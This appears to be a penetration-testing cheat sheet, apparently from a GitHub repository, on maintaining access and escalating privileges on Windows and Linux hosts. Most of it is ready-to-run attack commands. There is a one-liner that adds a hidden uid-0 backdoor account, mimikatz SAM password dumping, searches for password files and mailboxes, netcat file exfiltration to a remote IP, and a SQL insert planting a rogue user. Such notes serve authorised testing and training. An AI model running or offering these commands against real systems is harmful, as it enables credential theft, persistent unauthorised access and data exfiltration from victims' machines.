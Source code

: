 # Maintaining Access
## Table of Contents
* [Information to Gather for Privilege Escalation](#information-to-gather-for-privilege-escalation)
* [Gathering Information on a Windows System](#gathering-information-on-a-windows-system)
* [Gathering Information on a Linux System](#gathering-information-on-a-linux-system)
* [One-liner: useradd and chpasswd](#one-liner-useradd-and-chpasswd)
* [Dump Passwords](#dump-passwords)
* [Find Password Files](#find-password-files)
* [Find Emailboxes](#find-emailboxes)
* [Get Network Connections](#get-network-connections)
* [Exfil via Netcat](#exfil-via-netcat)

## Information to Gather for Privilege Escalation
| Information | Benefit to Privilege Escalation |
| ----------- | ------------------------------- |
| User Context |Establish who you are before working towards who you want to be. |
| Hostname | Discover the system’s role, naming convention, OS, etc. |
| OS Version | Find matching kernel exploits. |
| Kernel Version | Find matching kernel exploits (exploit the core of the OS). |
| System Architecture | Find matching exploits. |
| Processes and Services | Determine which are running under a privilege account and vulnerable to a known exploit and/or configured with weak permissions. |
| Network Information | Identify pivot options to other machines/networks (adapter configs, routes, TCP connections and their process owners), and determine if anti-virus or virtualization software is running. |
| Firewall Status and Rules | Determine if a service blocked remotely is allowed via loopback; find rules that allow any inbound traffic. |
| Scheduled Tasks | Identify automated tasks running under an administrator-context; find file-paths to files with weak permissions. |
| Programs and Patch Levels | Find matching exploits; HotFixId and InstalledOn represent quality of patch mgmt; qfe = quick fix engineering. |
| Readable/Writable Files and Directories | Find credentials and/or files (that run under a privileged account) that can be modified/overwritten: look for files readable and/or writable by “Everyone,” groups you’re part of, etc. |
| Unmounted Drives | Find credentials. | 
| Device Drivers and Kernel Modules | Find matching exploits. |
| AutoElevate Settings and Binaries | Find settings and/or files that run as the file owner when invoked. If AlwaysInstallElevated is enabled, exploit via a malicious .msi file. |

## Gathering Information on a Windows System
```bash
whoami # print my current user context
net user victor # print my group memberships, password policy, etc.   
net user # print other accounts on this system
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

## Gathering Information on a Linux System
```bash
whoami # output shows your current user context
id # print my current user context, uid, and gid
cat /etc/passwd # print other accounts on this system
hostname
cat /etc/issue # print OS version
cat /etc/*-release # print OS version
uname -a # print kernel version and system architecture
```

## One-liner: useradd and chpasswd
```bash
useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 victor
```

## Dump Passwords
```bash
mimikatz.exe "lsadump::sam"
```

## Find Password Files
```bash
findstr /si password *.xml *.ini *.txt (Find passwords)
```

## Find Emailboxes
```bash
dir *.dbx /s 
```

## Get Network Connections
```bash
# all connections, no name resolution, and print owning PID 
netstat -ano 

# print filepath of each network-connected binary
(Get-NetTcpConnection).OwningProcess | ForEach-Object { Get-Process -Id $_ | Select-Object -ExpandProperty Path } | Sort-Object | Get-Unique
```

## Exfil via Netcat
```bash
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```

Add a new user to a SQL database
```sql
INSERT INTO targetdb.usertbl(username, password) VALUES ('victor','please');
```